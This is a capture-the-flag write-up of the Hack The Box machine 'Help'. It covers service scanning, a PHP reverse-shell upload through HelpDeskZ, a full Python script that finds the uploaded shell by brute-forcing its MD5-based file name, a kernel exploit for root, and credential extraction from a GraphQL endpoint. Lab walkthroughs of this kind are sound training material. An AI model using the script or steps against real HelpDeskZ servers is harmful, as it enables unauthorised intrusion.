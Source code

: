 ```yaml
---
title:     "Hack The Box - Help"
tags: [linux,easy,node,kernel_exploit]
---
```


![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-help/1.png)

We are going to pwn Help from Hack The Box.

Link : <https://www.hackthebox.eu/home/machines/profile/170>


Like always begin with our Nmap Scan.

## Nmap Scan Results:

```
PORT     STATE SERVICE
22/tcp   open  ssh
80/tcp   open  http
3000/tcp open  ppp


PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 e5:bb:4d:9c:de:af:6b:bf:ba:8c:22:7a:d8:d7:43:28 (RSA)
|   256 d5:b0:10:50:74:86:a3:9f:c5:53:6f:3b:4a:24:61:19 (ECDSA)
|_  256 e2:1b:88:d3:76:21:d4:1e:38:15:4a:81:11:b7:99:07 (ED25519)
80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
3000/tcp open  http    Node.js Express framework
|_http-title: Site doesn't have a title (application/json; charset=utf-8).
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Linux 3.12 (95%), Linux 3.13 (95%), Linux 3.2 - 4.9 (95%), Linux 3.8 - 3.11 (95%), Linux 4.4 (95%), Linux 3.16 (95%), Linux 3.18 (95%), Linux 4.2 (95%), Linux 4.8 (95%), ASUS RT-N56U WAP (Linux 3.4) (95%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Lets begin from HTTP,It is an apache default webpage
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-help/2.png)

So bruteforce the directories
## Gobuster Results:

```
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.10.121
[+] Threads:        10
[+] Wordlist:       /usr/share/wordlists/dirb/common.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
2019/12/15 00:08:21 Starting gobuster
===============================================================
/.hta (Status: 403)
/.htpasswd (Status: 403)
/.htaccess (Status: 403)
/index.html (Status: 200)
/javascript (Status: 301)
/server-status (Status: 403)
/support (Status: 301)
===============================================================
2019/12/15 00:10:45 Finished
===============================================================
```

Found ``HelpDeskZ`` on ``/support``
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-help/3.png)
It has a login page too.

A quick check for any exploits available I found this

>https://www.exploit-db.com/exploits/40300 

From the exploit I came to know we need to submit a ticket
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-help/4.png)

I gave some random and uploaded my reverse shell as ``root.php``
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-help/5.png)

When I click uploaded it says<br/>
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-help/6.png)

Then I checked the source code of the ``HelpDeskz`` on github

>https://github.com/evolutionscript/HelpDeskZ-1.0

I came to know when we uploaded it shows ``Not allowed`` but its not deleting ,The file is still saved on the server.

I already found an exploit from ``exploitdb`` so I just edited some 


```
import hashlib
import time
import sys
import requests

print 'Helpdeskz v1.0.2 - Unauthenticated shell upload exploit'

if len(sys.argv) < 3:
    print "Usage: {} [baseUrl] [nameOfUploadedFile]".format(sys.argv[0])
    sys.exit(1)

helpdeskzBaseUrl = sys.argv[1]
fileName = sys.argv[2]

currentTime = int(time.time())

for x in range(0, 300):
    plaintext = fileName + str(currentTime - x)
    md5hash = hashlib.md5(plaintext).hexdigest()

    url = helpdeskzBaseUrl+'/uploads/tickets/'+md5hash+'.php'
    response = requests.head(url)
    if response.status_code == 200:
        print "found!"
        print url
        sys.exit(0)

print "Sorry, I did not find anything"
```

I changed the ``url`` , I found that from the github repo.

Now I executed the scirpt on my machine with listening on another terminal.
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-help/7.png)

I got an user ``help``

## Privilege Escalation:

While checking the kernel it looks old one 
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-help/8.png)

> https://www.exploit-db.com/exploits/44298 

Got an exploit for that version

Uploaded the script to the machine 

![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-help/9.png)<br/>
Got Root

## Enumerating ``Node.js``:

It looks like ``node.js`` running on port ``3000``<br/>
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-help/10.png)

It give us some message that we need to find the credentials with given query.

Mostly ``node.js`` run as ``express graphql``

I test it with adding ``graphql?`` <br/>
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-help/11.png)

It shows some message so I tested with changing it to ``test`` and it gives me some error so I confirmed there is ``graphql``
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-help/12.png)

We know the message told us to find in given ``query`` and I googled about it and found this 
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-help/13.png)

So I added username and password <br/>
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-help/14.png)<br/>
Got some credentials

It looks like md5sum so I cracked with online crackstation
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-help/15.png)

It works for ``HelpDeskz`` login
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-help/16.png)